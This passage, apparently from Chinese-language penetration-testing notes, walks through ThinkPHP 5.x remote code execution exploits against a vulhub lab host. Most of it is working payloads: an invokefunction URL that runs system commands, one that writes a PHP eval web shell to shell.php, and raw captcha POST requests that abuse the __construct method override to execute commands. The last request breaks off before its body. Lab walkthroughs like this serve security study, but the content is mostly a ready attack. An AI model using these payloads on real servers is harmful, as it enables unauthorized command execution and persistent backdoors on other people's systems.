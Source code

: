    
    
    http://192.168.66.132:8080/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

![]()

## TP - 5.0.22/5.1.29-RCE x Getshell

    
    
    http://192.168.66.132:8080/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo '<?php @eval($_POST[1]);?>' > shell.php

![]()

## TP - 5.0.23-RCE

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

在vulhub中开启即可

![]()

页面访问

![]()

抓包更改为POST

![]()

    
    
    POST /index.php?s=captcha HTTP/1.1  
    Host: localhost  
    Accept-Encoding: gzip, deflate  
    Accept: */*  
    Accept-Language: en  
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)  
    Connection: close  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 72  
      
    _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id

![]()

## TP - 5.0.23-RCE x Getshell

    
    
    POST /index.php?s=captcha HTTP/1.1  
    Host: 192.168.66.132:8080  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Connection: close  
    Cookie: think_lang=zh-cn  
    Upgrade-Insecure-Requests: 1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 73  
      